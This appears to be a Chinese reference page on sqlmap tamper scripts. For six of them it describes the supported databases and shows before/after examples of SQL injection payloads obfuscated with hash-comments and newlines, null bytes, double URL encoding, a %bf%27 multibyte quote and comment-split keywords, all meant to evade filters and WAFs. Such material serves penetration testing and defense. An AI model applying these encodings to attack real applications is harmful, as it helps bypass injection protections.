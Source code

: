 ### space2morehash.py

适用数据库：MySQL >= 5.1.13
测试通过数据库：MySQL 5.1.41
作用：将空格替换为`#`，并添加一个随机字符串和换行符
使用脚本前：`tamper('1 AND 9227=9227')`
使用脚本后：`1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

### apostrophenullencode.py

适用数据库：ALL
作用：用非法双字节Unicode字符替换单引号
使用脚本前：`tamper("1 AND '1'='1")`
使用脚本后：`1 AND %00%271%00%27=%00%271`

### appendnullbyte.py

适用数据库：ALL
作用：在有效载荷的结束位置加载null字节字符编码
使用脚本前：`tamper('1 AND 1=1')`
使用脚本后：`1 AND 1=1%00`

### chardoubleencode.py

适用数据库：ALL
作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`
使用脚本后：`%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545`

### unmagicquotes.py

适用数据库：ALL
作用：用一个多字节组合`%bf%27`和末尾通用注释一起替换空格
使用脚本前：`tamper("1' AND 1=1")`
使用脚本后：`1%bf%27 AND 1=1--`

### randomcomments.py

适用数据库：ALL
作用：用注释符分割sql关键字
使用脚本前：`tamper('INSERT')`
使用脚本后：`I/**/N/**/SERT`
